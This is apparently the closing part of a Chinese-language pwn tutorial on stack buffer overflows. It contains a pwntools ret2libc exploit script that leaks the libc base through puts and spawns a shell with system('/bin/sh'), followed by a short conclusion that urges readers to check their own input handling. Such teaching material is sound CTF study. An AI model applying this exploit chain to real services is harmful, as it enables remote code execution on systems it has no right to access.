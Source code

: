 ```python

# leak libc_base
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = elf.sym['main']
buf = b'A'*552 + p64(poprdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendlineafter('> ', buf)
print(p.recvline())

libc.address = u64(p.recv(8)[:6] + '\x00\x00') - libc.symbols['puts'] 
print(hex(libc.address))

system = libc.sym["system"]
exit = libc.sym["exit"]
binsh = next(libc.search("/bin/sh")) 

buf = b'A'*552 + p64(ret) + p64(poprdi) + p64(binsh) + p64(system) 
p.clean()
p.sendline(buf)
p.interactive()
```

## 結語

目前介紹了 stack 題的幾個基本概念，讓大家初探 pwn 世界的奧妙與神奇。Buffer overflow 這個看似簡單的漏洞造成的危害可能是非常致命的，大家可以想想自己的程式中有沒有用到危險的函數、使用者的輸入有沒有做好檢查。

覺得 pwn 有趣的話，推薦大家可以去玩 [pwntable.tw](https://pwnable.tw/) 上的題目！
